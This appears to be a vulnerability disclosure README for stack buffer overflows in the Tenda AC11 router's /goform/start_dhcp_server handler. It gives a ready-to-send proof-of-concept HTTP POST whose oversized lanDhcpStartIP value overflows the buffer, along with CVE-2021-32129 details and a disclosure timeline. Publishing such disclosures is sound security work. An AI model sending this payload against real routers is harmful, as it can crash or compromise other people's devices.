

# Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/start_dhcp_server` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There are two stack buffer overflow vulnerabilities in function `sub_800CC270` (page `/goform/start_dhcp_server`).

This function uses `strcpy` to copy the string pointed by `v18` into a stack buffer pointed by `v45`. `v18` is directly retrived from the nvram variable `lanDhcpStartIP` and used immediately without any security check.

Then again it uses `strcpy` to copy the string pointed by `v19` into a stack buffer pointed by `v44`. `v19` is directly retrived from the nvram variable `lanDhcpEndIP` and used immediately without any security check.



## POC

```plain
POST /goform/start_dhcp_server HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&lanDhcpStartIP=127.0.0.1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

## Timeline

- 2021.04.21 report to CVE & CNVD
- 2021.05.02 CNVD ID assigned: CNVD-2021-32415
- 2021.07.19 Tenda claim to have fixed this issue
- 2021.10.12 CVE ID assigned: CVE-2021-32129

## CVE ID

CVE-2021-32129

## Acknowledgment

Credit to [@Ainevsia](https://github.com/Ainevsia), [@leonW7](https://github.com/leonW7) and [@Yu3H0](https://github.com/Yu3H0) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.
